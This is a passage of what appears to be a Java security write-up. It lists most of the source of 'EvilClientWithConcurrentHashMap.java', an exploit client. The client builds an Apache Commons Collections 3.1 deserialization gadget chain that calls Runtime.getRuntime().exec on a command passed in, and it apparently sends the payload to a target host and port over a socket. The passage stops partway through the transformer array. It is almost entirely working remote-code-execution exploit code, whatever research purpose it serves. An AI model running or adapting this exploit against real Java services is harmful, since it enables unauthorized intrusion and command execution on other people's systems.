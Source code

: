8.4.4) EvilClientWithConcurrentHashMap.java

```java
*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar" EvilClientWithConcurrentHashMap.java
 */
import java.io.*;
import java.net.Socket;
import java.util.*;
import java.util.concurrent.ConcurrentHashMap;
import java.lang.reflect.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

public class EvilClientWithConcurrentHashMap
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String          addr        = argv[0];
        int             port        = Integer.parseInt( argv[1] );
        String          cmd         = argv[2];
        Transformer[]   tarray      = new Transformer[]
        {
            new ConstantTransformer( Runtime.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
                {
                    String[].class
                },
                new Object[]
                {
```